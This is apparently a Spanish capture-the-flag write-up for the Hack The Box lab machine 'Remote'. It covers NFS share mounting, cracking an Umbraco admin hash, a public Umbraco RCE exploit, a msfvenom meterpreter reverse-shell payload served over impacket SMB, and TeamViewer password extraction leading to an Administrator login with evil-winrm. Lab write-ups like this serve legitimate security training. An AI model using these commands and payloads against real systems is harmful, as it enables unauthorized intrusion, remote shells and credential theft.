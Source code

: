 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults
layout: default
---
```

![image](../../Imágenes%20Máquinas/Remote.jpg)


# REMOTE HTB
### (Impacket, monturas, escalada mediante TeamViewer)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Empezaremos haciendo el nmap de siempre:

```bash

nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap

```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.

![image](../zimages/Pasted_image_20231203203247.png)

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:

![image](../zimages/Pasted_image_20231203203401.png)

Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash

wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'

```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:

![image](../zimages/Pasted_image_20231203203911.png)

Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:

![image](../zimages/Pasted_image_20231203204430.png)

En este puerto se están emitiendo una ubicación por la red (una montura), con el comando

```bash

showmount -e "10.10.10.180"

```

podemos ver las monturas que está emitiendo esa ip:

![image](../zimages/Pasted_image_20231203204727.png)

Aunque también podemos hacerlo con nmap mediante el comando

```bash

nmap -p 111 --script=nfs-showmount "10.10.10.180"

```

![image](../zimages/Pasted_image_20231203204842.png)

Una vez en este punto, podemos montar en local esa montura con el comando

```bash

mount -t nfs 10.10.10.180:/site_backups /mnt/

```

![image](../zimages/Pasted_image_20231203205218.png)

Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash

cat Umbraco.sdf | head

```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:

![image](../zimages/Pasted_image_20231203205630.png)

Si nos vamos a la web de https://crackstation.net la crackeamos fácil:

![image](../zimages/Pasted_image_20231203205736.png)

También tenemos el usuario de la web del admin, el login donde pedía un correo:

![image](../zimages/Pasted_image_20231203205810.png)

Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:

![image](../zimages/Pasted_image_20231203210018.png)

Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash

python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20

```

Una vez puesto este comando, nos da una shell directamente:

![image](../zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien.

Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell

cd C:\windows\temp

```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe

```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash

impacket-smbserver samucrow $(pwd) -smb2support

```

Esto básicamente es como hacer un

```python

python3 -m http.server 80

```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell

copy \\10.10.14.20\samucrow\virus.exe virus.exe

```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](../zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole

set PAYLOAD windows/meterpreter/reverse_tcp

```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](../zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](../zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](../zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user:

![image](../zimages/Pasted_image_20231203221719.png)



# Escalada 1


Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.

Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente:


```msfconsole

search teamviewer

```


![image](../zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:

  

![image](../zimages/Pasted_image_20231203223209.png)

elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:

  

![image](../zimages/Pasted_image_20231203223318.png)

Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash

evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'

```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root:

![image](../zimages/Pasted_image_20231203224126.png)


# Escalada 2 (NO FUNCIONAL)


Si nos vamos a la consola de metasploit, podemos poner el comando `search local_exploit_suggester` y `use 0` para usar el exploit suggester, una vez hecho esto, ponemos `set SESSION 1` y `run`, así nos buscará posibles formas de conseguir privilegios de Administrador.
  
![image](../zimages/Pasted_image_20231203224957.png)

Probamos con todos los posibles exploits pero ninguno funciona